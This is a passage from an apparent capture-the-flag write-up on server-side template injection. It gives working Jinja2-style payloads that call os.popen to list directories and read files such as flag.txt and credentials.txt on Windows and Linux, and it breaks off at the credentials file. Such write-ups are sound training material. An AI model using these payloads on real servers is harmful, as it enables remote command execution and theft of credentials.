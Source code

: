Templates are used by web frameworks *(like Jinja2 in Python, Twig in PHP, etc.)* to combine data with HTML pages. If an attacker can inject malicious template code, the server will process it, **allowing them to read sensitive data, run commands, or even take full control of the system.**

If you look online for SSTI payloads, or even ask ChatGPT, it will surely provide some :

**For Listing :**

on Windows :

<pre>{{ request.application.__globals__.__builtins__.__import__('os').popen('dir').read() }}</pre>

on Linux :

<pre>{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}</pre>

![Texte alternatif](imageswriteup/25.png)

Wow, here we have several files that will be useful to us.

**Let's try to open them**

on Windows :

<pre>{{ request.application.__globals__.__builtins__.__import__('os').popen('type le_nom_du_fichier').read() }}</pre>

on Linux :

<pre>{{ request.application.__globals__.__builtins__.__import__('os').popen('cat le_nom_du_fichier').read() }}</pre>

*a-  Several of them are inaccessible, such as: Dockerfile, docker-compose.yaml, app.py, etc ...*

![Texte alternatif](imageswriteup/26.png)

b- Except for:
- *flag.txt*

![Texte alternatif](imageswriteup/27.png)

Oops, it’s a fake flag, so the battle is not over yet!

- *credentials.txt* :
